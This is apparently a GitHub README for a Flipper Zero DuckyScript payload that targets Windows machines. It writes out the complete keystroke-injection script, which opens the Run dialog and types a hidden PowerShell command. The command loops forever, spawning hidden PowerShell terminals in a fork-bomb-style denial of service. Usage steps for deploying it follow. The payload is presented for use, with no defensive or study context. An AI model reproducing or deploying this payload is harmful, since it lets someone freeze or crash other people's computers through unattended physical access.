 
# SpamTerminals-FlipZero

## Description

This script, created by bst04, is designed to work on Windows devices. It opens an infinite number of hidden PowerShell terminals, effectively spamming the system with terminal instances.


## Technical Explanation

1. **Initialization**:
    - `GUI r`: Simulates pressing "Windows" + "R" to open the Run dialog.
    - `DELAY 250`: Waits for 0.25 seconds to ensure the Run dialog is open.

2. **Execute PowerShell Command**:
    - `STRING powershell -WindowStyle Hidden -Command "while ($true) { Start-Process powershell -ArgumentList '-NoExit', '-Command', 'Start-Process powershell -WindowStyle Hidden -ArgumentList \"-NoExit\", \"-Command\", \"Start-Process powershell -WindowStyle Hidden\"' }"`: Types a PowerShell command that runs an infinite loop, continuously opening hidden PowerShell windows.
    - `DELAY 1000`: Waits for 1 second to ensure the command is fully typed.

3. **Start the Command**:
    - `ENTER`: Executes the PowerShell command.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a Windows system.
3. Execute the payload to open an infinite number of hidden PowerShell terminals.
